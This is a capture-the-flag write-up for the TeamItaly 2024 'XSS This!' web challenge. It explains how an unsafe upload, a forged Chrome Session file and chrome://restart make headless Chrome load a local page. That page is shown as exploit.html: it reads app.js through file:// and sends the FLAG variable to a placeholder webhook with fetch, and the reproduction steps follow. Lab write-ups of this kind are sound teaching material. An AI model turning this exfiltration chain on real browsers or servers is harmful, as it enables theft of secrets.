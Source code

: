 # TeamItaly Preselection CTF 2024

## [web] XSS This! (2 solves)

If I don't use the flag nothing can happen? Right?

Site: [http://xssthis.challs.external.open.ecsc2024.it](http://xssthis.challs.external.open.ecsc2024.it)

Author: Alessandro Mizzaro <@Alemmi>

## Overview

The challenge is a web server with a Chrome headless and an exploitable file upload; as the description says, the flag is never used.
So, the goal is to read the app.js file, but there is no simple primitive to do that.

## Solution

The only way to read files is via Chrome, but the security policies do not allow us to read files without user interaction, except for file:// URLs that can read *.js files with a script tag.
Unfortunately `file` protocol is banned with a `blacklist` with `javascript://` and `data://`.

The file upload is unsafe, and we can upload the file directly to Chrome's userDataDir. So, we must find a method to open Chrome on a `file://` URL.

The browser with puppeteer opens Chrome on the `about:blank` page, but the code opens a new tab navigating to `chrome://newtab` and opens your URL with window.open so, from this context, we can open all the `chrome://` URLs, including the debug ones like `chrome://restart`

When Chrome is opened, it tracks its new tabs and states in a directory called Session inside the profile and If I restart Chrome with `chrome://restart`, by default, it takes the last session file.

So the exploit path is:
Upload an exploit file like exploit.html that takes the load app.js and sends the `FLAG` var through an endpoint.
Open CChrome on `chrome://restart` and wait a few seconds for Chrome to generate a Session file, and before it opens the URL, upload a crafted Session file with Tabs pointing to the exploit.html
You can generate a fake Session file with a local Chromium without understanding all its serialization methods.

## Exploit

exploit.html

```javascript
<script>function require(){ return {} } </script>
<script src=file:///home/app/app.js></script>
<script>fetch('${webhook}?flag='+FLAG)</script>
```

- Open local Chromium and go to `file:///home/app/sandbox/${sandbox}/uploads/exploit.html`.
- Copy the generated Session file and rename it with Session_99XXXXX` because Chrome uses that number to order the sessions.
- Upload exploit.html.
- Resolve the pow and send the headless to `chrome://restart`.
- Wait 5/6 seconds and upload the Session file with the path traversal.
- Enjoy
